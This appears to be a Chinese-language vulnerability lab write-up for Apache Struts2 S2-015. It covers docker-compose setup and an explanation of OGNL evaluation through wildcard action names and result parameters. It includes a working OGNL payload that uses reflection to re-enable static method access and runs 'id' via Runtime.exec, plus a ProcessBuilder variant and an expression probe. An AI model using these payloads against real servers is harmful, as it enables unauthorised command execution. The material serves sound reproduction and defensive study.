

# S2-015 远程代码执行漏洞

影响版本: 2.0.0 - 2.3.14.2

漏洞详情:

 - http://struts.apache.org/docs/s2-015.html

## 测试环境搭建

```
docker-compose build
docker-compose up -d
```

## 原理与测试

漏洞产生于配置了 Action 通配符 *，并将其作为动态值时，解析时会将其内容执行 OGNL 表达式，例如：

```xml
<package name="S2-015" extends="struts-default">
    <action name="*" class="com.demo.action.PageAction">
        <result>/{1}.jsp</result>
    </action>
</package>
```

上述配置能让我们访问 name.action 时使用 name.jsp 来渲染页面，但是在提取 name 并解析时，对其执行了 OGNL 表达式解析，所以导致命令执行。在实践复现的时候发现，由于 name 值的位置比较特殊，一些特殊的字符如 / " \ 都无法使用（转义也不行），所以在利用该点进行远程命令执行时一些带有路径的命令可能无法执行成功。

还有需要说明的就是在 Struts 2.3.14.1 - Struts 2.3.14.2 的更新内容中，删除了 SecurityMemberAccess 类中的  setAllowStaticMethodAccess 方法，因此在 2.3.14.2 版本以后都不能直接通过 `#_memberAccess['allowStaticMethodAccess']=true` 来修改其值达到重获静态方法调用的能力。

这里为了到达执行命令的目的可以用 kxlzx 提到的调用动态方法 (new java.lang.ProcessBuilder('calc')).start() 来解决，另外还可以借助 Java 反射机制去间接修改：

```
#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true)
```

可以构造 Payload 如下：

```
${#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream()),#q}
```

直接回显：


除了上面所说到的这种情况以外，S2-015 还涉及一种二次引用执行的情况：

```xml
<action name="param" class="com.demo.action.ParamAction">
    <result name="success" type="httpheader">
        <param name="error">305</param>
        <param name="headers.fxxk">${message}</param>
    </result>
</action>
```

这里配置了 `<param name="errorMessage">${message}</param>`，其中 message 为 ParamAction 中的一个私有变量，这样配置会导致触发该 Result 时，Struts2 会从请求参数中获取 message 的值，并在解析过程中，触发了 OGNL 表达式执行，因此只用提交 %{1111*2} 作为其变量值提交就会得到执行。这里需要注意的是这里的二次解析是因为在 struts.xml 中使用 ${param} 引用了 Action 中的变量所导致的，并不针对于 type="httpheader" 这种返回方式。


